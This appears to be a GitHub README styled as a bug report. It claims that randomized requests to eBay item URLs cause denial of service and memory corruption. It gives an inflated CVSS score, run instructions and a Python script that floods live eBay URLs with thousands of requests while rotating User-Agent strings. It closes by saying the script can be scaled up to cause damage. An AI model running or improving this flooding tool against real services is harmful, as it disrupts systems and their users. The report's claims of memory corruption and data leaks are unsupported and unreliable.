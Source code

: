 # Tsunami

#### Vulnerability Overview:
**Title**: Directory Enumeration Leading to Potential Resource Exhaustion (DdoS) and Memory Corruption on eBay

**Summary**:
I have identified a vulnerability on eBay that can lead to resource exhaustion, potential Denial of Service (DoS) attacks, and possibly minor memory corruption by making rapid and randomized requests to item URLs. By manipulating the last 12 digits in the URL of any item listing, an attacker can flood the server with requests, causing excessive load, and potentially impacting system integrity through memory corruption.

#### Steps to Reproduce:
1. **Navigate to any eBay item listing** and note the URL format, e.g., `https://www.ebay.com/itm/305669110440`.
2. **Run the provided Python script** (see below) to generate and send randomized requests to similar URLs by changing the last 12 digits.
3. Observe how the server handles these requests and whether it leads to increased response times, resource exhaustion, or system errors.

#### CWE IDs:
- **CWE-400**: Uncontrolled Resource Consumption ('Resource Exhaustion')
  - This CWE covers scenarios where an application allows unintentional or intentional resource exhaustion through excessive requests or other means.
- **CWE-703**: Improper Check or Handling of Exceptional Conditions
  - The server’s inability to handle a large number of incoming requests appropriately falls under this category.
- **CWE-119**: Improper Restriction of Operations within the Bounds of a Memory Buffer
  - This CWE covers scenarios that could lead to memory corruption or buffer overflow as a result of unexpected or excessive input.

#### CVSS Score:
Based on the information provided and the potential for minor memory corruption, a preliminary CVSS score estimation is as follows:

- **CVSS Base Score**: 8.2-8.8 (High-Critical)
  - **Attack Vector (AV)**: Network (N)
  - **Attack Complexity (AC)**: Low (L)
  - **Privileges Required (PR)**: None (N)
  - **User Interaction (UI)**: None (N)
  - **Scope (S)**: Unchanged (U)
  - **Confidentiality (C)**: Low (L)
  - **Integrity (I)**: Low (L)
  - **Availability (A)**: High (H)

#### Impact:
- **Availability**: High — The service could become significantly slower or unresponsive due to resource exhaustion.
- **Integrity**: Low — There is a potential for memory corruption, which could affect the integrity of the system, though this impact is considered limited.
-  **Confidentiality**: Low - There is a low confidentiality risk due to a possible user information leak from server stress.
- **Reputation**: Potential damage to eBay’s reputation if the service is disrupted.
- **User Experience**: Users could experience poor performance, data corruption, or service outages.

#### Recommendations:
- Implement rate limiting on requests to similar URLs.
- Monitor and block requests with unusual patterns or excessive frequency.
- Validate and limit URL patterns to reduce the potential for resource exhaustion and memory corruption.

#### Python Script

The script below demonstrates how an attacker could exploit this vulnerability. It sends randomized requests to eBay item URLs, rapidly replacing the last 12 digits with random numbers. This can overwhelm the server, leading to potential resource exhaustion and memory corruption.

**How to Use the Script:**
1. Install Python and the `requests` library if not already installed (`pip install requests`).
2. Copy the script below into a `.py` file (e.g., `ebay_ddos_test.py`).
3. Run the script using the command `python ebay_ddos_test.py`.
4. The script will send up to 1000 requests per URL to simulate the attack.

Copy the script.

```bash
nano tsunami.py
```

```bash
python3 tsunami.py
```

```python
import requests
import random
import time

# Define a list of random User-Agent strings
user_agents = [
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.124 Safari/537.36",
    "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0.3 Safari/605.1.15",
    "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:89.0) Gecko/20100101 Firefox/89.0",
    "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/91.0.4472.114 Safari/537.36",
    "Mozilla/5.0 (iPhone; CPU iPhone OS 14_6 like Mac OS X) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/14.0.3 Mobile/15E148 Safari/604.1"
]

def generate_random_url(base_url):
    # Generate a random 12-digit number
    random_digits = ''.join([str(random.randint(0, 9)) for _ in range(12)])
    # Replace the last 12 characters of the base URL
    return base_url[:-12] + random_digits

def perform_requests(base_url, num_requests=100):
    for i in range(num_requests):
        random_url = generate_random_url(base_url)
        headers = {
            "User-Agent": random.choice(user_agents)
        }
        try:
            response = requests.get(random_url, headers=headers)
            print(f"Request {i+1}: {random_url} - Status Code: {response.status_code}")
        except requests.exceptions.RequestException as e:
            print(f"Request {i+1} failed: {e}")

if __name__ == "__main__":
    base_urls = [
        "https://www.ebay.com/itm/305669110440",
        "https://www.ebay.com/itm/305669110441",
        "https://www.ebay.com/itm/305669110430"
    ]
    
    for base_url in base_urls:
        print(f"Testing with base URL: {base_url}")
        perform_requests(base_url, num_requests=1000)
        print("\n")

```

**Disclaimer**: This script should only be run in a controlled environment where you have explicit permission to perform such tests. Misuse of this script on a live system without authorization could violate terms of service and be illegal.
This can be beefed right out and cause quite a lot of damage or cost.
---
